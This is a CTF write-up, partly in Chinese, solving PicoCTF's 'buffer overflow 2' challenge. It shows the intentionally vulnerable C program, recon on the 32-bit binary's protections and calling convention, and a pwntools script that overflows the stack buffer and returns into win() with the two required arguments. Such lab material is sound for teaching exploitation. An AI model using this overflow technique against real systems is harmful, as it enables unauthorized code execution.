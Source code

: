 ```yaml
---
title: PicoCTF - buffer overflow 2
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - buffer overflow 2
## Background
Bof
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


```
:::
## Recon
寫這一題的心境變化真的很有趣，一開始看直覺很簡單，就基礎的return 2 function就結束了，不過看到還要處理calling convention的問題就有點燒腦，首先我一開始的想法是控制edi和esi的數值過掉她的checking，直覺就是用rop之類的東西，不過這隻程式本身能用的gadget少的可憐，如果要用到libc本身的gadget就必須要克服aslr的base address，想到這邊頭就開始痛了，無論如何先用gdb跟一下，發現檢查的argument就在ebp+0x8和ebp+0x10的地方，這就代表離原本的bof不遠，所以試看看能不能延伸bof的內容，果然事情比我想像中的簡單，需要注意的地方是payload中return win function的部分不能馬上接checking payload，因為執行的過程中0xcafefood會被蓋掉，所以中間需要加一個dummy value
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit
```python=
from pwn import *

r = remote('saturn.picoctf.net', 50995)
# r = process('./vuln')
context.arch = 'amd64'

r.recvline()

r.sendline(b'a' * 0x70 + p32(0x8049296) + p32(0) + p32(0xCAFEF00D) + p32(0xF00DF00D))

r.interactive()
```